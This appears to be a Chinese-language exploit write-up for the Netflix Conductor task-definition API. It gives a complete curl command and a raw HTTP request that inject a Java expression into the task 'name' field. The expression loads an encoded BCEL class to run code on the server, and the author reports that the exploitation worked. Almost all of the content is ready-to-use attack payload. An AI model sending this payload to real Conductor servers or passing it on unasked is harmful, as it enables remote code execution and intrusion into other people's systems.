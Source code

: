 这样一串就是生成成功了。

```
curl --location --request POST 'http://localhost:8080/api/metadata/taskdefs' \
--header 'Content-Type: application/json' \
--data-raw '[{
  "name": "${'\'' '\''.getClass().forName('\''com.sun.org.apache.bcel.internal.util.ClassLoader'\'').newInstance().loadClass('\''$$BCEL$$$l$8b$I$A$A$A$A$A$A$Am$91$cdN$C1$U$85O$87$91$81q$Q$QA$c1$3f$d4$85$a8$89l$dca$dc$Y$5d$e1O$84$e8$c2$8d$c3$d0$60$91$99$nC1$bc$91k6h$5c$f8$A$3e$94z$5b$T1$d1$s$bd$ed$3d$f7$f4$bbi$fb$fe$f1$fa$G$e0$A$5b6$SX$b0$91G$n$81E$b5$$Y$u$da$98A$c9$c2$b2$85$V$86$f8$a1$I$84$3cb$88Uv$ae$Z$cc$e3$b0$cd$Z$d2u$R$f0$f3$a1$df$e2Q$d3m$f5HI5$a4$eb$3d$9c$b9$7d$9d$eb$d3E$b2$fb$ae$I$Y$K$95$dbz$d7$7dt$ab$3d7$e8T$h2$SA$a7$a6pv$p$iF$k$3f$V$K$91$3cy$U$bd$7d$e5s$90$84ma$d5$c1$g$d6$a9$9b$M$87$de$7d$b9$w$fd$7e$b5$cd$fd$d0A$Z$h$M$b9$v$f2d$e4$f1$be$Ua$e0$60$T6$f5U$u$86$cc$d4q$d1$earO2d$a7$d2$d50$90$c2$a7$c6v$87$cb$9f$q_$d9$a9$ff$f1$d4$I$c9G$dcc$d8$ae$fcs$93_$d2e$Uz$7c0$a0$D$e9$3e$V$a5$7e$96f$e4z$i$h$b0$e8$b9$d50$c0$d4$N$v$ceRvG$b9Aka$f7$Z$ec$F$c6$7cl$C$f3$e6$J$89$fa$de$E$f11$b9L$a4$90$a1_1$e0$90$af$84$b8f$98Z$b7t$rKZ$9e$98$v$aad$60$7cR$60$W$e6TH$9b$a4g$c8$f1$dd$adH$93$a99$d6$h$F$8ck$c1$a18$af$c1$b9$_$J$ae$b6$90$n$C$A$A'\'').newInstance().class}",
  "ownerEmail": "test@example.org",
  "retryCount": 3,
  "timeoutSeconds": 1200,
  "inputKeys": [
    "sourceRequestId",
    "qcElementType"
  ],
  "outputKeys": [
    "state",
    "skipped",
    "result"
  ],
  "timeoutPolicy": "TIME_OUT_WF",
  "retryLogic": "FIXED",
  "retryDelaySeconds": 600,
  "responseTimeoutSeconds": 3600,
  "concurrentExecLimit": 100,
  "rateLimitFrequencyInSeconds": 60,
  "rateLimitPerFrequency": 50,
  "isolationgroupId": "myIsolationGroupId"
}]'
```

![image-20210416234231639](C:\Users\Dem0\AppData\Roaming\Typora\typora-user-images\image-20210416234231639.png)

利用成功，生成的payload 没有任何问题。

```
POST /api/metadata/taskdefs? HTTP/1.1
Host: ip:8080
Content-Type: application/json
cache-control: no-cache
Postman-Token: 7bd50be1-2152-46d6-b16e-8245df0141dc
[{"name":"${'1'.getClass().forName('com.sun.org.apache.bcel.internal.util.ClassLoader').newInstance().loadClass('[payload]').newInstance().class}","ownerEmail":"test@example.org","retryCount":"3","timeoutSeconds":"1200","inputKeys":["sourceRequestId","qcElementType"],"outputKeys":["state","skipped","result"],"timeoutPolicy":"TIME_OUT_WF","retryLogic":"FIXED","retryDelaySeconds":"600","responseTimeoutSeconds":"3600","concurrentExecLimit":"100","rateLimitFrequencyInSeconds":"60","rateLimitPerFrequency":"50","isolationgroupId":"myIsolationGroupId"}]
```
